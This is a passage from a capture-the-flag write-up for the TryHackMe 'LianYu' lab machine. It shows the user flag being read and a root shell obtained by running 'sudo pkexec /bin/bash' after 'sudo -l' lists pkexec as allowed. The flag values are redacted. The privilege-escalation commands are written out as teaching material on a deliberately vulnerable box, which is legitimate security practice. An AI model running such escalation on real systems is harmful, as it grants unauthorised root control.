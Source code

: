 ### user.txt

```bash
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
THM{REDACTED}
        --Felicity Smoak
```

---

## Privilege Escalation

- Check slade user's sudo permission.

```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- He can run `pkexec`. So, we can escalate privilege:

```bash
slade@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~# whoami
root
```

### root.txt

- Find the root flag inside `root` directory:

```
root@LianYu:~# cd /root
root@LianYu:~# ls
root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{REDACTED}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

- It was a fun and interesting machine to root!!

---